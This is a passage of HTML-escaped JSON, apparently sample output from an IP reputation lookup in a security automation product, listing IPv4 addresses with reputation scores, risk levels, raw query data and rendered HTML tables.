&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;65.9.42.42&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.46.235&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.46.235&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 398470891,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;23.192.46.235&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;142.251.42.131&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 41,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;142.251.42.131&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2398825091,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 41,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;142.251.42.131&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;41&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 225121775,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;13.107.21.239&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;83&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.111.245.2&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.111.245.2&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 879752450,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.111.245.2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.43.249.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.43.249.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 388757802,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;23.43.249.42&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.112.115.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.112.115.3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 879784707,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;52.112.115.3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.198.119.84&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.198.119.84&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 348550996,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 19,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;20.198.119.84&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;19&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;138.199.21.216&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;138.199.21.216&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2328303064,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 17,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;138.199.21.216&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;17&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;168.63.129.16&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;168.63.129.16&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 2822734096,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table 